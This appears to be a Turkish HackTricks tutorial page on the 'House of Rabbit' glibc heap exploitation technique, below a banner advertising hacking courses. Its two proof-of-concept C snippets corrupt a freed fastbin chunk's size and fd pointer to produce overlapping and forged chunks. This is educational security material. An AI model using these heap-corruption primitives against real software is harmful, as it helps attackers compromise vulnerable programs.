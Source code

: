# Tavşan Evi

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

### Gereksinimler

1. **Hızlı bin fd işaretçisini veya boyutunu değiştirme yeteneği**: Bu, bir parçanın hızlı bindeki ileri işaretçisini veya boyutunu değiştirebileceğiniz anlamına gelir.
2. **`malloc_consolidate`'i tetikleme yeteneği**: Bu, ya büyük bir parça tahsis edilerek ya da üst parçanın birleştirilerek yapılabilir, bu da parçaları birleştirmeye zorlar.

### Hedefler

1. **Üst üste gelen parçalar oluşturmak**: Bir parçanın başka bir parçayla örtüşmesine izin vererek daha fazla heap manipülasyonu yapılmasını sağlamak.
2. **Sahte parçalar oluşturmak**: Yalancı bir parçayı yasal bir parça gibi göstererek tahsisat işlemleri sırasında tahsisatçıyı kandırmak.

## Saldırı Adımları

### POC 1: Hızlı bin parça boyutunu değiştirme

**Amaç**: Bir hızlı bin parçasının boyutunu manipüle ederek üst üste gelen bir parça oluşturmak.

* **Adım 1: Parçalar Tahsis Etme**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Adım 2: Parçaları Serbest Bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Adım 3: Parça Boyutunu Değiştirme**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Adım 4: `malloc_consolidate`'yi Tetikleyin**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak, küçük parçaları hızlı kutuya birleştiren `malloc_consolidate` işlevini tetikler. `chunk1`'in manipüle edilen boyutu, `chunk2` ile örtüşmesine neden olur.

Konsolidasyondan sonra, `chunk1`, `chunk2` ile örtüşerek daha fazla sömürüye izin verir.

### POC 2: `fd` işaretçisini değiştirme

**Amaç**: Hızlı kutu `fd` işaretçisini manipüle ederek sahte bir parça oluşturmak.

* **Adım 1: Parçaları Ayırma**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Açıklama**: Sahte bloğu oluşturmak için daha küçük ve daha büyük olmak üzere iki blok tahsis ediyoruz.

* **Adım 2: Sahte blok oluştur**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Adım 3: `chunk1`'i serbest bırakın**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Açıklama**: `chunk1`'i serbest bırakıyoruz, onu fastbin listesine ekliyoruz.

* **Adım 4: `chunk1`'in `fd`'sini değiştirin**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Açıklama**: `chunk1`'in ileri işaretçisini (`fd`) `chunk2` içindeki sahte parçaya işaret edecek şekilde değiştiriyoruz.

* **Adım 5: `malloc_consolidate`'i Tetikle**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça yeniden tahsis edildiğinde `malloc_consolidate` tetiklenir, sahte parça işlenir.

Sahte parça, hızlı parça listesinin bir parçası haline gelir, bu da onu daha fazla istismar için geçerli bir parça haline getirir.

### Özet

**House of Rabbit** tekniği, ya hızlı bir parça parçasının boyutunu değiştirerek örtüşen parçalar oluşturmayı ya da sahte parçalar oluşturmak için `fd` işaretçisini manipüle etmeyi içerir. Bu saldırganlara yığın içinde meşru parçalar oluşturma imkanı tanır ve çeşitli istismar biçimlerini mümkün kılar. Bu adımları anlamak ve uygulamak, yığın istismarı becerilerinizi geliştirecektir.
